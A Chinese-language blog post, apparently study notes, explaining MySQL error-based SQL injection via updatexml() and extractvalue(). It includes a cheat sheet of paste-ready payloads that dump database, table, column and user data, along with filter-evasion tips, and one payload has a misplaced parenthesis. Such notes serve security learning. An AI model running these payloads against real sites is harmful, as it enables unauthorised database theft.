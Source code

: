 ```yaml
---
layout:     post
title:      SQL报错注入1
date:       2024-08-03
tags: [Web, 报错注入, SQL注入, Xpath报错注入]
comments: true
author: Whitea
toc: true
---
```


SQL报错注入，SQL注入必须掌握的一个注入方法！

<!-- more -->

## 前言

学习SQL注入知识点，记录一下SQL报错注入相关知识。

但是这次记录的是利用Xpath报错注入，没有讲到floor()函数报错注入。

后面我会继续找时间补充一下。

### 一、SQL报错注入适用前提

报错注入的前提：就是页面能够响应详细的错误描述（回显能够报错）

### 二、报错注入要利用到的函数

SQL报错注入，利用的是Xpath报错注入这个关键点

涉及到的函数如下：
   - `updatexml()`  
   - `extractvalue()`

当这两个函数在执行时，如果出现xml文档路径错误就会产生报错

#### 1. updatexml()解读

`updatexml()`是一个使用不同的xml标记匹配和替换xml块的函数。

作用：改变文档中符合条件的节点的值

语法： `updatexml(XML_document，XPath_string，new_value)`

- 第一个参数：是string格式，为XML文档对象的名称，文中为Doc 
- 第二个参数：代表路径，Xpath格式的字符串例如//title 
- 第三个参数：string格式，替换查找到的符合条件的数据

updatexml使用时，当xpath_string格式出现错误，mysql则会爆出xpath语法错误(xpath syntax)

例如： `select * from test where ide = 1 and (updatexml(1,0x7e,3));` 由于0x7e是~，不属于xpath语法格式，因此报出xpath语法错误。

#### 2. extractvalue()解读

作用：此函数从目标XML中返回包含所查询值的字符串

语法：`extractvalue(XML_document，xpath_string)`

- 第一个参数：string格式，为XML文档对象的名称 
- 第二个参数：xpath_string（xpath格式的字符串） 
- SQL语句格式：`select * from test where id=1 and extractvalue(1,concat(0x7e,(select user()),0x7e));`

extractvalue使用时当xpath_string格式出现错误，mysql则会爆出xpath语法错误（xpath syntax）

由于**0x7e就是~**不属于xpath语法格式，因此报出xpath语法错误。

### 三、报错注入命令整理

这里默认payload是字符型参数，如果测试出来payload是数字型参数，则 `and` 前面不加单引号 `'` 即可

#### 1. updatexml()语句整理(payload形式)

再提一嘴,0x7e就是 `~`.在这里的作用就是**引起报错**，**同时当作分隔符**，便于观察。 

- 爆当前数据库名：`' and updatexml(1,concat(0x7e,database(),0x7e),1)#`
- 爆当前数据库的表名： `' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)#`   
  
  注：此处使用group_concat()函数进行输出，否则会出现错误。 无要修改的参数

- 爆指定表的字段(即列名)信息：`' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),1)#`
  
  注：要修改的参数table_name，填具体表名。table_name的参数必须加单引号

- 爆数据：`' and updatexml(1,concat(0x7e,(select group_concat(COLUMN_NAME) from TABLE_NAME),0x7e),1)#`
  
  注：要修改的参数为COLUMN_NAME和TABLE_NAME,具体的列名和表名，这里的表名不需要加单引号

补充一下：`' and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)#`

这个是爆当前数据库名的拓展，还可以**爆出当前用户名**,即 `user()` ；爆出**当前数据的文件夹路径**，即 `@@datadir`

`@@datadir` 相当于 `datadir()` 的意思, `@@database` 同理。


#### 2. extractvalue()语句整理(payload形式)

使用extractvalue可以避开关键词 `update` 的过滤

extractvalue和updatexml大致相同，只是要填入参数**变为两个**了，而不是三个

-  爆当前数据库名：`' and extractvalue(1,concat(0x7e,database(),0x7e))#`
-  爆当前数据库的表名：`' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e))#`
  
  注：此处使用group_concat()函数进行输出，否则会出现错误。 无要修改的参数

- 爆指定表的字段(即列名)信息：`' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e)) #`
  
  注：要修改的参数table_name，填具体表名。table_name的参数必须加单引号

- 爆数据：`' and extractvalue(1,concat(0x7e,(select group_concat(COLUMN_NAME)from TABLE_NAME)),0x7e))#`

   注：要修改的参数为COLUMN_NAME和TABLE_NAME,具体的列名和表名，这里的表明不需要加单引号

补充：这是爆数据的一个拓展`' and extractvalue(1,concat(0x7e,(select group_concat(user_id,0x7e,first_name,0x3a,last_name) from dvwa.users)))#`

COLUMN_NAME可以填写多个列名，在group_concat()中会拼接起来

## 结语

文章的 `#` 注释符号可以换成其他形式的，比如 `%23`

参考了以下文章：
 - [SQL注入实战之报错注入篇](https://www.cnblogs.com/c1047509362/p/12806297.html)
 - [sql注入之报错注入](https://blog.csdn.net/silence1_/article/details/90812612)
